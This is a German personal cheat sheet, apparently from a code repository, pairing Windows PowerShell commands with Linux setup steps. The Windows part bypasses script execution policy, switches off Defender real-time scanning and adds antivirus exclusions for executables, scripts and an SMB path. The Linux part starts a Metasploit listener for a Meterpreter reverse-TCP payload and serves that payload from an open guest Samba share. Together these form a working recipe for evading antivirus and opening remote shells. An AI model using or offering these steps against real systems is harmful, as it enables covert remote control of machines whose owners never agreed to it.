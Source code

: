 # Notizen – 81a5terfr34k

---

## Windows: 

---

### Richtlinien mit Powershell Befehlen ändern 
- setzen (SET) 
- Anzeigen (Get) 

---

| Befehl                                                      | Beschreibung                       |
|-------------------------------------------------------------|------------------------------------|
| Get-ExecutionPolicy                                         | Ausführungsrichtlinien anzeigen    |
| Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass  | Skriptausführung zulassen          |
| Set-MpPreference -DisableRealtimeMonitoring $true           | Antivirenscanner ausschalten       |       
| Set-MpPreference -DisableRealtimeMonitoring $false          | Antivirenscanner einschalten       |
| Add-MpPreference -ExclusionExtension ".exe" ODER ".ps1"     | Ausnahmen hinzufügen (Dateityp)    |
| Add-MpPreference -ExclusionPath "C:\Lokaler-Pfad"           | Ausnahmen hinzufügen (Ordner)      |
| Add-MpPreference -ExclusionPath "\\192.168.x.x\SMB-Pfad"    | Ausnahmen hinzufügen (SMB/NAS)     |

---

--> Script ausführen mit: .\<scriptname>.ps1

---

## Linux:

---

--> Payload erstellen: msfvenom
--> Meterpreter sitzung Listener:
```bash
msfconsole
msf6> use exploit/multi/handler
msf6> set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6> set LHOST <kali IP>
msf6> set LPORT 4444
msf6> set ExitOnSession false
msf6> exploit -j
````
--> smbshare Ordner erstellen: sudo mkdir -p /srv/smbshare
--> smbshare Ordner zugriff erteilen: sudo chmod -R 777 /srv/smbshare
--> Payload nach smbshare Ordner verschieben: mv ~/Schreibtisch/PayloadStub.exe /srv/smbshare/
--> Inhalt von smbshare kontrollieren: ls -l /srv/smbshare
--> SMB Dienst starten: sudo systemctl start smbd
--> SMB Dienst status prüfen: sudo systemctl status smbd
--> Zugriff auf smbshare testen: smbclient //localhost/share -N
--> aktive Samba Konfiguration anzeigen: testparm ( /etc/samba/smb.conf)
--> SMB Konfigurations-DATEI bearbeiten: sudo nano /etc/samba/smb.conf  
--> NEUEN [share]-Block ganz unten im dokument erstellen mit:
`````
[share]
   path = /srv/smbshare
   browsable = yes
   read only = no
   guest ok = yes
--> zusätzlich im [global]-Block ergänzen:
   map to guest = Bad User
````
--> speichern: strg+0 
--> schliessen: strg+x
--> SMB Dienst neu starten: sudo systemctl restart smbd
